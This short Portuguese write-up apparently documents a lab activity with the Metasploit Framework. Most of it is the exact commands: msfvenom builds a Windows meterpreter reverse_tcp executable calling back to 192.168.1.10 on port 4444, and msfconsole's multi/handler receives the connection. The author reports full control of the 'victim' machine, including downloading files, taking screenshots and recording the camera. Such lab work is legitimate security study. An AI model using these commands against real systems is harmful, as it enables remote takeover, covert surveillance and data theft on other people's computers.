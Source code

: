 ## Metasploit Framework

Para a realização da atividade foi necessário gerar um payload para que o ataque fosse possível.

- ```msfvenom -p windows/meterpreter/reverse_tcp —platform windows -a x86 -f exe LHOST=192.168.1.10 LPORT=4444 -o payload```

Setado o payload, foi nencessário configurar o msf console para ficar aguardando a conexão, para isso foi executado os comandos abaixo:

- ```msfconsole```
- ```use multi/handler```
- ```set PAYLOAD windows/meterpreter/reverse_tcp```
- ```set LPORT 4444```
- ```set LHOST 192.168.1.10```
- ```exploit```

Depois, só foi necessário executar o payload em um sistema windows e esperar a conexão ser estabelecida.

Depois disso foi possível ter acesso total ao computador da vítima, onde foi possível baixar alguns arquivos do computador, tirar screenshots, gravar a camera, dentre outras possibilidades.

![](images/2.png)

No geral, a execução da atividade foi tranquila, não tive nenhum problema em sua execução.

